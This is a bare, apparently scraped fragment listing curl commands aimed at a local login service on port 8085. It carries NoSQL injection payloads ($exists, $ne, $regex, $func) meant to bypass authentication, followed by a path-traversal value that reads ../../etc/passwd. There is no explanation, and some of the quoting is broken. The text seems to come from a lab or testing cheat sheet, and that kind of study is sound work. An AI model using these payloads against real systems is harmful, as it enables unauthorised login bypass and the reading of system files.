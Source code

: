 



curl -d username[$exists]=true&password[$exists]=true -XPOST localhost:8085



curl -d username=admin&password=admin -XPOST localhost:8085

username[$exists]=true&password[$exists]=true


curl -d "username[$ne]=toto&password[$ne]=toto" -X POST localhost:8085


curl -d "username[$ne]=toto&password[$regex]=a.{2}" -X POST localhost:8085



curl -d "username="{$func": "var_dump"}&password=" -XPOST localhost:8085


curl -d ""user":{"$func": "var_dump"}" -X POST localhost:8085

file=../../etc/passwd